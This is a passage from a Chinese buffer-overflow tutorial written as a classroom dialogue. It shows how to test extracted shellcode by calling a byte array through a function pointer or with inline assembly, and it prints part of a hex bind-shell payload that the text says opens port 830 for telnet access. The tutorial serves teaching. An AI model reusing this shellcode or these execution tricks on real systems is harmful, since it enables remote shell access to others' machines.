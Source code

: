 玉波不服气，“那也不一定，如果你写错了一句呢？或者少抄了一句呢？”

“才不会呢！”

大家狂晕……

“不要吵，”老师出来调解，“我们来验证一下吧！”

3.4.3 验证 ShellCode 功能的方法

“提取了 ShellCode 后，怎么验证它是否正确呢？经常有人问如何知道那些 16 进制 ShellCode 的真正功能，这里就说一下。”

“第一种方法，我们打开 VC，新建一个工程和 C 源文件，然后把 ShellCode 拷下来存为一个数组（这里我们先用玉波提取到的 ShellCode 吧）！最后在 main 中添上 ( (void(*)(void)) &shellcode )() ，得到‘testBindCode1.cpp’。”

“ `(( void(*)(void)) &ShellCode)()` 是什么意思？”大家问道。

“ `(( (void(*)(void)) &ShellCode)()` 这句是关键，它把 ShellCode 转换成一个参数为空、返回为空的函数指针，并调用它。执行那一句就相当于执行 ShellCode 数组里的那些数据。”老师解释道。

“要验证 ShellCode 是否正确完成功能，我们直接运行看效果就可以了。编译、执行，ShellCode 打开了 830 端口，可以 telnet 成功，如图 3－32，证明玉波同学的 ShellCode 提取是正确的。”

![](img/Q 版缓冲区溢出教程 102440.jpg)

“哈哈，我是保证质量啊！”玉波笑道。

“我们再看看古风同学提取的 ShellCode 吧！使用第二种方法，在 main 里面直接嵌入汇编语句 lea eax, ShellCode， call eax 。这是先把 ShellCode 的地址给 eax，然后 call eax 跳到 ShellCode 里面去执行。”

```
__asm
{
lea eax, ShellCode
call eax
} 
```

“我们在 main 里加上图 3－33 里的这段汇编，然后执行，还是成功了！说明古风同学提取的也是正确的。”

![](img/Q 版缓冲区溢出教程 102692.jpg)

“哈哈，太好了！我还担心有误呢！”古风笑呵呵的说。

“好，礼物闪亮登场！就是……赠送《Q 版系列图书》一本。”

“哇！这么好啊！”其他人口水都流出来了。

“古风同学和玉波同学都差不多同时完成，而且都正确了。那这样吧，书非借不能读也，你们一人看三天，然后交换，过两个周后给我一个书面学习汇报，行不？”

“行！”两人一口答应，“这样也可以提高效率！”

“好的。其他同学可要加油啊！希望下一次得奖的是你们！”

“另外，两位同学的 ShellCode 在这里，大家可以对照一下。”

```
unsigned char ShellCode[] = 
    "\x55\x83\xEC\x50\x8B\xEC\xB8\x7A\x72\xE5\x77\x89\x45\x04\xB8\xB8"
    "\x1B\xE4\x77\x89\x45\x08\xB8\x24\x76\xE9\x77\x89\x45\x0C\xB8\x8C"
    "\x9D\xE5\x77\x89\x45\x10\xB8\x82\x8B\xE5\x77\x89\x45\x14\xB8\xB5"
    "\x5C\xE5\x77\x89\x45\x18\xB8\xDA\x41\xA2\x71\x89\x45\x1C\xB8\x22"
    "\x3C\xA2\x71\x89\x45\x20\xB8\xCE\x3E\xA2\x71\x89\x45\x24\xB8\xE2"
    "\x5D\xA2\x71\x89\x45\x28\xB8\x8D\x86\xA2\x71\x89\x45\x2C\xB8\xF4"
    "\x1A\xA2\x71\x89\x45\x30\xB8\x90\x56\xA2\x71\x89\x45\x34\xB8\x00"
    "\x00\x00\x00\xC6\x45\x38\x00\xC6\x45\x3C\x00\xC6\x45\x40\x00\xC6"
    "\x45\x44\x00\xC6\x45\x48\x00\x81\xEC\x90\x01\x00\x00\x54\x68\x02"
    "\x02\x00\x00\xFF\x55\x1C\x6A\x06\x6A\x01\x6A\x02\xFF\x55\x20\x8B"
    "\xD8\x33\xFF\x57\x57\xB8\x02\x00\x03\x3E\x50\x8B\xF4\x6A\x10\x56"
    "\x53\xFF\x55\x24\x47\x47\x57\x53\xFF\x55\x28\x6A\x10\x8D\x3C\x24"
    "\x57\x56\x53\xFF\x55\x2C\x8B\xD8\x33\xFF\x47\x57\x33\xFF\x57\x6A"
    "\x0C\x8B\xF4\x57\x56\x8D\x45\x3C\x50\x8D\x45\x38\x50\xFF\x55\x04"
    "\x57\x56\x8D\x45\x44\x50\x8D\x45\x40\x50\xFF\x55\x04\x81\xEC\x80"
```